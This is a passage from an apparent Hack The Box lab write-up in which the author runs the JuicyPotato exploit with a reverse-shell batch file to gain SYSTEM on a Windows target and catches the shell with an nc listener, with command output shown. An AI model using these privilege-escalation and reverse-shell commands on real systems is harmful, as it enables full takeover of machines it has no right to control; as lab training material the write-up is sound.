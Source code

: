 
And run JuicyPotato:

    
    
    PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p "C:\windows\system32\spool\drivers\color\rev.bat" -l 9001 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 9001
    ......
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
    [+] CreateProcessWithTokenW OK
    

At my local `nc` listener:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.72.
    Ncat: Connection from 10.10.10.72:49207.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

[](/2022/04/25/htb-fighter.html)

